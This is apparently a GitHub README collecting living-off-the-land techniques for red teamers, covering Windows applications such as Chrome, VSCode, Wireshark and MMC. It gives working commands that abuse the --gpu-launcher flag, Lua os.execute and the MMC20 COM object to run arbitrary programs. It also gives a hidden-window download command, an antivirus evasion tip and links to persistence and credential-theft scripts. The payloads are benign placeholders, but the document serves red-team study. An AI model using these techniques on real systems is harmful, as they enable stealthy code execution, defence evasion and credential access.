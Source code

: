 # Binary_Alchemy-LOLAPPS
BinaryAlchemy is a project for collecting known and commonly found executables in action for red teamers.

# Execution
### Chrome
````

 & 'C:\Program Files\Google\Chrome\Application\chrome.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"
 & 'C:\Program Files\Google\Chrome\Application\chrome_proxy.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
### VSCode
````
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="calc.exe"

````

### Wireshark
````
& 'C:\Program Files\Wireshark\tshark.exe' -X lua_script:'<path of lua script>'
& 'C:\Program Files\Wireshark\wireshark.exe' -X lua_script:'<path of lua script>' (Wireshark also opens while executing)

lua file content
-- mention the binary that needs to be executed
 os.execute('C:\\Windows\\notepad.exe')
 ````
### MMC
````
**Required powershell with administrative privilege.** Avoid opening cmd.exe as it gets alerted in Defender.
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application"))
$com.Document.ActiveView.ExecuteShellCommand("C:\windows\system32\notepad.exe",$null,$null,"7")
 ````
 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Download
### Chrome
````

& ‘C:\Program Files\Google\Chrome\Application\chrome_proxy.exe’ — profile-directory=Default — incognito — chrome-frame — user-data-dir=”C:\Temp\Temp-chrome\” — window-size=0,0 — window-position=”0000,1000" <URL>

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Persistence
### Windows Terminal Profile creation

````
 [Windows Terminal Profile Creator](https://github.com/Miragle-Hub/Adversary-tactics-and-techniques-for-Windows/blob/main/Persistence/TerminalProfile%20persistence.ps1)

````
### LNK Shorcut
````
[Windows Shortcut Persistence Script](https://github.com/Miragle-Hub/Adversary-tactics-and-techniques-for-Windows/blob/main/Persistence/Lnk%20Persistence.ps1)

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Credential Access
### Burp suite stores the proxy credentials in plain text under UserConfigPro.json file.
````
[BurpSuite password for Proxy connections](https://github.com/Miragle-Hub/Adversary-tactics-and-techniques-for-Windows/blob/main/Credential%20Access/Burp%20suite%20proxy%20credential)

